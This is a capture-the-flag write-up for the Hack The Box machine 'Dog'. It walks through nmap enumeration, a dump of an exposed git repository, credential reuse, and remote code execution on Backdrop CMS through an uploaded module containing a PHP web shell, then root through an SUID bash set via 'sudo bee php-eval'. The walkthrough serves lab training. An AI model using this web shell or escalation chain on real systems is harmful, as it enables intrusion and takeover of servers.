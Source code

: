 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Webapp credentials in source code using GitHack + RCE via upload of a malicious archive.\
Root: Sudo misconfiguration of bee CLI.

## Enumeration
Using nmap, we can identify a web service on port 80 and SSH exposed on port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## User
### Git dump + RCE via shell.tar
The nmap scan revealed that the git repository of the webapp is exposed.\
Using [GitHack](https://github.com/lijiejie/GitHack), we are going to partially retrieve the source code of this web application.
{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
In those files, we can find a username `tiffany` and a password `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Using those credentials, we gain access to the webapp `http://dog.htb` as `tiffany`.\
We can find the version of `Backdrop` in the `Reports` tab then `Status report`.\
This version `1.27.7` is vulnerable to an RCE.
![](Backdrop_version.png)

The following [exploit](https://www.exploit-db.com/exploits/52021) could work but our instance of backdrop doesn't accept `.zip` archives.\
We can find this information in the `Functionality` tab then `Install new modules`.
![](Backdrop_zip.png)

So, we are going to take the HTML/PHP code and `shell.info` content of this exploit in order to create a `shell.tar` archive.\
Then, on the same page we are going to install this new module.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Even if this new module is not listed in the list of installed modules, we can access it through `/modules/shell/shell.php`, as specified in the [exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

In the home directory, we can find two users, `jobert` and `johncusack`.
![](Backdrop_users.png)\
Using the previously discovered password `BackDropJ2024DS2024`, we gain SSH access to the machine as `johncusack` and are able to retrieve the `user.txt` flag.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Sudo misconfiguration
`Johncusack` can use `bee` CLI as `root` via sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}

This CLI "allows developers to interact with Backdrop sites" as specified on their [GitHub](https://github.com/backdrop-contrib/bee).\
As we can see in the documentation, we can execute PHP code.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

First, we are going to move to `/var/www/html` so `bee` can interact with our backdrop site.\
Then, we set the SUID flag to `/bin/bash` and get a root shell in order to read the `root.txt` flag.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Resources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)